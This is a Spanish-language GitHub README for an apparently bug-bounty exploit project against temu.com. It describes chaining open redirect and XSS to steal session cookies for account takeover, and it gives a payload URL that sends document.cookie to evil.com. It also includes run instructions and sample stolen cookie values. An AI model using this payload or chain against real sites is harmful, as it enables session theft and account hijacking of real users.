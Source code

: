 # 🚨 temu-vuln-hunter-pro

Herramienta profesional para la detección y explotación automatizada de vulnerabilidades encadenadas en el dominio de Temu (https://www.temu.com), incluyendo:

- ✅ Open Redirect
- ✅ XSS reflejado
- ✅ Robo de cookies
- ✅ Toma de control de cuenta (Account Takeover)
- ✅ CSRF / IDOR (en desarrollo)

> 🎯 Proyecto creado para propósitos educativos, pruebas éticas y programas de bug bounty como HackerOne.

---

## 📌 Descripción

`temu-vuln-hunter-pro` automatiza la explotación de flujos críticos en Temu, encadenando vulnerabilidades como redirección abierta y ejecución de JavaScript malicioso para obtener cookies de sesión y simular toma de cuenta.

Incluye:

- Scripts de explotación (`exploit_xss_redirect.py`)
- Pruebas de PoC (`poc.html`, `xss.js`)
- Documentación del ataque
- Capturas e informes listos para HackerOne

---

## 🧪 Ejemplo de Payload Usado

```bash
https://www.temu.com/track?redirect=https://evil.com/xss.js?cookie=document.cookie

Este payload aprovecha la redirección para ejecutar un XSS almacenado o reflejado desde el dominio del atacante, permitiendo robar document.cookie y reenviarla vía fetch().

🧩 Encadenamiento de vulnerabilidades

🌀 Open Redirect: permite redirigir al usuario a un dominio externo malicioso.

🧠 Reflected XSS: el atacante controla el JS cargado.

🍪 Cookie Theft: el script roba cookies de sesión (document.cookie) y las envía a un servidor del atacante.

🔓 Account Takeover: al capturar la cookie de sesión, el atacante puede suplantar al usuario.

📂 Estructura del proyecto
Copiar
Editar
temu-vuln-hunter-pro/
├── README.md
├── exploit_xss_redirect.py
├── poc/
│   ├── xss.js
│   ├── poc.html
├── docs/
│   └── vulnerability_report.md
└── evidence/
    └── screenshot.png

💻 Requisitos
Python 3.8+

Navegador (para ejecutar poc.html)

Servidor HTTP local (opcional para pruebas de xss.js)

Instalación rápida:

bash
Copiar
Editar
git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro
python3 exploit_xss_redirect.py

📸 Capturas
Ataque en acción	Cookie interceptada
cf_clearance=abc123; sid=xyz456...

🛡️ Propósito ético
Este proyecto se realiza exclusivamente con fines educativos y de investigación. Su objetivo es demostrar la cadena de vulnerabilidades reales que podrían existir en plataformas como Temu y ayudar a mitigarlas. No debe ser utilizado en entornos no autorizados.

📬 Reporte en HackerOne
Alias: jimenez7@wearehackerone.com

Encabezado HTTP: X-HackerOne-Investigación: jimenez7

Informe profesional: Ver docs/vulnerability_report.md

PoC en vivo: Ver carpeta /poc

✍️ Autor
Jonathan Jiménez
GitHub: @Jonathanjimenez123
Bug Bounty Hunter | Ethical Hacker | Python Developer

📄 Licencia
Este proyecto está bajo la licencia MIT.
